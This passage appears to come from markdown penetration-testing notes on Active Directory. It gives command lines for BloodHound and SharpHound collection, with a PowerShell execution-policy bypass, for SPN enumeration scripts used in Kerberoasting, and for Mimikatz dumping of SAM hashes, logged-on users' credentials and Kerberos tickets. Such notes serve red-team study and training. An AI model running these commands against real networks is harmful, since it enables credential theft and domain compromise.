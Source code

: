 Start bloodhound
```
>bloodhunt
neo4j////yourpassword
```

[Invoke-bloodhund](#https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1)
Download and place script on windows machine

Run SharpHound (Copy result file to your machine)
```
cmd>powershell -ep bypass
ps>. .\SharpHound.ps1
ps> Invoke-BloodHound -CollectionMethod All -Domain <DC_name> -ZipFileName <output.file.zip.name>
```

Bloodhound file open
1. Click Upload file
2. Pick the zip file
3. After extract all data click the hamburger icon one the left side
4. Check the queries tab

### Service Principal Names Enumeration
SPN is a unique name for a service on a host, used to associate with an Active Directory service account.
- Automated SPN enum scripts
Tools:
[Kerberoast](#https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1)
[Powershell Empire](#https://github.com/compwiz32/PowerShell/blob/master/Get-SPN.ps1)
```
PS> .\GetUserSPNs.ps1
[...]
PS> .\Get-SPN.ps1
```

### Mimikatz Enumeration
- Dumping LM/NTLM hashes with Mimikatz(dump contents of SAM db in current host, dump creds of logged-on users)
```
mimikatz > privilege::debug
mimikatz > token::elevate
[...]
mimikatz > lsadump::sam              
mimikatz > sekurlsa::logonpasswords 
```

- Dumping Kerberos TGT/TGS tickets
```
mimikatz > sekurlsa::tickets
```

--------------------------------------------------------------------------------------------------------------------------------------------------
# Active Directory Attacks
